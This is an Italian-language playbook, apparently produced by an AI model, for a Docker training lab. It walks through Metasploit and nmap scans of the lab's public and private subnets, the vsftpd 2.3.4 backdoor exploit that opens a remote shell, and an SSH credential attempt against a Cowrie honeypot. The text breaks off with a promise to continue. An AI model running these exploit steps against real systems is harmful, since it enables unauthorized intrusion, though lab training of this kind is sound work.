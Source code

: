 Ecco la guida in formato Markdown, pronta da copiare e incollare su GitHub.

---

# PLAYBOOK - Laboratorio di Cybersecurity con Docker

## Introduzione
Questa guida fornisce istruzioni dettagliate per eseguire una serie di attacchi informatici in un ambiente di laboratorio Docker configurato ad hoc. Ogni sezione copre un attacco specifico, utilizzando container predisposti e strumenti come Metasploit e Nmap. Il laboratorio è progettato per simulare scenari realistici di attacco e fornire esperienza pratica.

### Struttura del Laboratorio
Il laboratorio è composto da diversi container che simulano servizi vulnerabili e configurazioni di rete realistiche. L'ambiente è suddiviso in:
- **Rete Pubblica (172.16.10.0/24)**: Container esposti verso l'esterno.
- **Rete Privata (10.1.0.0/24)**: Container isolati e raggiungibili solo tramite pivoting.

---

## Accesso a Metasploit
Metasploit è uno dei framework più utilizzati per il penetration testing e l’analisi delle vulnerabilità. In questo laboratorio, viene utilizzato sia per la scansione della rete che per l'esecuzione di exploit specifici. La particolarità di questo ambiente è che Metasploit è già installato sui container `attacker` e `attacker-private`, consentendo di lanciare direttamente comandi come `nmap`.

### Avvio di Metasploit:
1. Accedi al container `attacker` o `attacker-private`:
   ```bash
   docker exec -it attacker /bin/bash
   ```
2. Avvia Metasploit:
   ```bash
   ./msfconsole -r docker/msfconsole.rc -y config/database.yml
   ```
3. Metasploit è ora pronto all’uso per eseguire scansioni, exploit e altre attività.

---

## 1. Scansione della rete pubblica dal container `attacker`

### Descrizione:
L’obiettivo di questa attività è effettuare una scansione della rete pubblica per identificare i servizi esposti dai container collegati. La rete pubblica è configurata con il subnet `172.16.10.0/24`. La scansione permette di rilevare IP attivi, porte aperte e servizi in ascolto, informazioni fondamentali per pianificare ulteriori attacchi.

**Passaggi:**
1. Avvia Metasploit:
   ```bash
   ./msfconsole -r docker/msfconsole.rc -y config/database.yml
   ```
2. Utilizza `nmap` direttamente da Metasploit:
   ```bash
   nmap -sV 172.16.10.0/24
   ```
   - L'opzione `-sV` consente di identificare le versioni dei servizi in ascolto.
3. Analizza i risultati per verificare la presenza di container come FTP, MySQL e SSH Honeypot.

---

## 2. Scansione della rete privata dal container `attacker-private`

### Descrizione:
Poiché la rete privata non è accessibile direttamente dal container `attacker`, utilizziamo il container `attacker-private` per eseguire una scansione. Questo container ha accesso alla rete interna `10.1.0.0/24`, dove si trovano container più protetti, come il server web e il servizio SSH.

**Passaggi:**
1. Accedi al container `attacker-private`:
   ```bash
   docker exec -it attacker-private /bin/bash
   ```
2. Avvia Metasploit:
   ```bash
   ./msfconsole -r docker/msfconsole.rc -y config/database.yml
   ```
3. Lancia la scansione della rete privata:
   ```bash
   nmap -sV 10.1.0.0/24
   ```
4. Verifica la presenza di servizi come il server web (`web.euxcorp.com`) e SSH interno.

---

## 3. Attacco FTP (vsftpd 2.3.4) dal container `attacker`

### Descrizione:
Il container FTP utilizza il servizio `vsftpd` versione 2.3.4, noto per una vulnerabilità di backdoor. Quando un utente si autentica con un nome utente contenente uno smiley `:)`, viene aperta una shell remota sulla porta 6200. Questo exploit è una dimostrazione pratica di come un servizio FTP vulnerabile possa esporre il sistema a esecuzione di comandi da remoto.

**Passaggi:**
1. Avvia Metasploit:
   ```bash
   ./msfconsole -r docker/msfconsole.rc -y config/database.yml
   ```
2. Carica il modulo:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```
3. Configura i parametri:
   ```bash
   set RHOSTS 172.16.10.30
   set RPORT 21
   run
   ```
4. Se l'exploit ha successo, otterrai una shell interattiva.

---

## 4. Attacco SSH Honeypot sul container `public.euxcorp.com`

### Descrizione:
Il container `public.euxcorp.com` contiene un honeypot SSH configurato per registrare ogni tentativo di accesso. Questo è utile per monitorare attività sospette e raccogliere informazioni sugli attaccanti.

**Passaggi:**
1. Accedi al container:
   ```bash
   docker exec -it public.euxcorp.com /bin/bash
   ```
2. Verifica i log:
   ```bash
   tail -f /cowrie/var/log/cowrie/cowrie.log
   ```
3. Tenta l’accesso con Metasploit:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 172.16.10.40
   set RPORT 2222
   set USERNAME admin
   set PASSWORD admin
   run
   ```
4. Controlla i log per visualizzare i tentativi registrati.

---

Continua nella risposta successiva...
